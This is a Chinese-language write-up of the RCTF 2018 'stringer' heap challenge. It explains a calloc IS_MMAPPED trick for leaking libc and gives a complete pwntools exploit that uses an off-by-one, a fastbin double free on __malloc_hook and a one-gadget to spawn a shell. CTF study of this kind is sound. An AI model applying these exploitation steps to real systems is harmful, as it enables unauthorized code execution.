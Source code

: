 # RCTF stringer
## Author: 文火
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2></font>老样子先贴一下我学习的**NBUSEC**队伍的wp[链接](https://github.com/sajjadium/ctf-writeups/blob/master/RCTF/2018/stringer/stringer_exploit.py)，诶刚起步只能多学习学习其他大佬的。</br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2></font>这题保护全开，给的libc可以改写GOT，所以覆写\__malloc_hook不用多说，程序逆向分析一下发现明显存在off-by-one漏洞和double-free漏洞，当然还有UAF。这题主要难在calloc的行为会阻止我们泄露地址，不过，道高一尺魔高一丈:)</br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2></font>通过观察[calloc](https://github.com/str8outtaheap/heapwn/blob/master/malloc/__libc_calloc.c)的源代码可以看到有这样一段：</br>

```C
 p = mem2chunk (mem);

  /* Two optional cases in which clearing not necessary */
  if (chunk_is_mmapped (p))
    {
      if (__builtin_expect (perturb_byte, 0))
        return memset (mem, 0, sz);

      return mem;
    }

  csz = chunksize (p);
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2></font>意思就是说如果堆块被设置了mmaped标志位的话，calloc就不会把他初始化为0，那么mmaped标志位在哪呢？我们来看一下堆块头（取自[sploitfun](https://sploitfun.wordpress.com/2015/06/09/off-by-one-vulnerability-heap-based/)）：</br>

>prev_size – If the previous chunk is free, this field contains the size of previous chunk.</br>
>Else if previous chunk is allocated, this field contains previous chunk’s user data.</br>
></br>
>size : This field contains the size of this allocated chunk. Last 3 bits of this field contains flag information.</br>
>	&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;PREV_INUSE (P) – This bit is set when previous chunk is allocated.</br>
>	&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;IS_MMAPPED (M) – This bit is set when chunk is mmap’d.</br>
>	&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;NON_MAIN_ARENA (N) – This bit is set when this chunk belongs to a thread arena.</br>
></br>
>fd – Points to next chunk in the same bin.</br>
>bk – Points to previous chunk in the same bin.


&nbsp;&nbsp;&nbsp;&nbsp;<font size=2></font>也就是堆块size中的第二个比特位，如果本来size是0x91,我们置了mmaped之后就是0x93(PREV_INUSE | IS_MMAPED)。然后就可以绕过置0，成功泄露地址了:)其他套路都差不多，所以直接放脚本了：</br>

Exploit脚本:
=======

```python
from pwn import *

DEBUG = 1

def add_string(size, content, is_attack=False):
    p.recvuntil('choice: ')
    p.sendline('1')
    p.recvuntil('please input string length: ')
    p.sendline(str(size))

    if not is_attack:
        p.recvuntil('please input the string content: ')
        p.send(content)
        p.recvuntil('your string: ')

def view_string(title):
    p.recvuntil('choice: ')
    p.sendline('2')
    p.recvuntil("don't even think about it")

def edit_string(index, offset):
    p.recvuntil('choice: ')
    p.sendline('3')
    p.recvuntil('please input the index: ')
    p.sendline(str(index))
    p.recvuntil('input the byte index: ')
    p.sendline(str(offset))

def delete_string(index):
    p.recvuntil('choice: ')
    p.sendline('4')
    p.recvuntil('please input the index: ')
    p.sendline(str(index))

def leak():

    add_string(24, 'a' * 24)        # 0 (32) fastbin_1
    add_string(128, 'b' * 128)      # 1 (144) smallbin_1
    add_string(24,  'c' * 24)       # 2 (32) fastbin_2

    delete_string(1)

    # its size changes from 0x91 to 0x93 (PREV_INUSE && IS_MMAPED)
    edit_string(0, 24)
    edit_string(0, 24)

    # smallbin_2 will be placed in smallbin_1's chunk
    add_string(128, 'd' * 7 + '\n') # 3 (144) smallbin_2

    # leak bk pointer of smallbin_1
    p.recvuntil('d' * 7 + '\n')
    return u64(p.recv(6) + '\x00\x00') - 0x3c4b78

def exploit(libc_base):

    # allocate two fastbins to launch the fastbin attack using double free
    add_string(96, 'e' * 96)        # 4 (112) fastbin_3
    add_string(96, 'f' * 96)        # 5 (112) fastbin_4

    delete_string(4)
    delete_string(5)
    delete_string(4)

    fake_chunk = libc_base + 0x3c4aed			# before __malloc_hook
    print 'Fake Chunk: {}'.format(hex(fake_chunk))
    add_string(96, p64(fake_chunk) + 'g' * 88)          # 6 (112) fastbin_5

    add_string(96, 'h' * 96)                            # 7 (112) fastbin_6

    add_string(96, 'i' * 96)                            # 8 (112) fastbin_7

    execve_addr = libc_base + 0xf02a4 			# oneshot address
    add_string(96, 'i' * 19 + p64(execve_addr) + '\n')  # 9 (112) fastbin_8

    add_string(1, '\n', True)

if __name__ == '__main__':
    if DEBUG == 1:
      p = process('./stringer')
    else:
      p = remote('stringer.2018.teamrois.cn',7272)

    libc_base = leak()
    print 'libc base: {}'.format(hex(libc_base))

    exploit(libc_base)

    p.interactive()

```
